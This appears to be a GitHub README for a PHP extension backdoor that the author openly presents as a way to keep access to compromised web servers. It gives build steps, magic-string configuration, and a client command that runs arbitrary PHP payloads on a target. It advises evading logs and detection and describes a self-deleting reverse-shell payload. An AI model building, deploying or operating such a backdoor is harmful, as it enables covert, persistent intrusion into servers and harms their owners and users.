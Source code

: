 # PHP Backdoor Module

This is an example module for adding a backdoor to the PHP installation on a webserver by adding a PHP module. Very useful for mantaining access to a compromised host.

#Build Instructions

First off, you are going to want to edit the "magic string" (or rather, variable), and method. I have set them to POST, because GET variables get logged. You might want to edit some other things so it doesn't show up as "backdoor".

## Linux
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "execute"; // magic string
```

## Windows
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "secret_string"; // magic string
```

And next, we compile. For windows, I link to the articles (original in Russian, mine in English which is basically a translation I did).

##Windows:
[Original Russian Article][russian]

[English 'translation'][english]

##Linux:
`sudo apt-get install php5-dev`  
`phpize && ./configure && make`

# Use Instructions
In client/ I provide an example Python client which allows executing any arbritary PHP payload on the webserver. I also provide some example payloads in client/payloads/ that you may find useful. 

To use the client, you simply do the following.
```
root@unsanitized:~/dev/php-extension-backdoor/client# ./php_module_client.py http://192.168.1.7 secret_squirrels payloads/getuid.php
Starting execution...
uid: 33
Done!
root@unsanitized:~/dev/php-extension-backdoor/client#
```

Planned payloads include a variety of information gathering payloads, some reverse shells, and other useful utilities that I come up with. I will release those as they prove to be stable/useable soon.

# Payloads
## info.php
Prints UID, GID, and the uname -a of the server.

## back_python.php
Self destructing python backconnect. Sends a PTY home, and deletes itself once done. Work in progress, gotta find a way to pass arguments to the modules.

# Credits
Original Russian author, and [akamajoris][akamajoris]. All I did was some translation and writing payloads and client because I found them useful. 

[russian]: http://stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/
[english]: http://example.com/
[akamajoris]: https://github.com/akamajoris
